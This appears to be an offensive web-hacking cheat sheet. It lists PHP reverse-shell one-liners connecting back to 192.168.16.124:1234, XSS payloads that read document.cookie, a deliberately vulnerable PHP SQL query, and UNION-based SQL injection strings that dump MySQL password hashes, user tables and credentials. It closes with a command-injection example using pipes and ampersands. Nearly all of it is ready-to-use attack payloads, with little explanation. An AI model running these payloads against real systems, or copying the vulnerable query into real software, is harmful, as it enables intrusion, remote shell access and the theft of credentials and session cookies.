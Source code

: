 # WEB

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>

<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS
---

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

SQL INJECTION
-------------

Vulenrable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

MySQL delimiter: `#`
SQL delimiter: `--

* "Always true" scenario:

```
%' or '0'='0
' or 1=1--
```

% will probably not be equal to anything so will be false
'0'='0' - always equal to true

* Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 2#`

etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`


COMMAND INJECTION
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`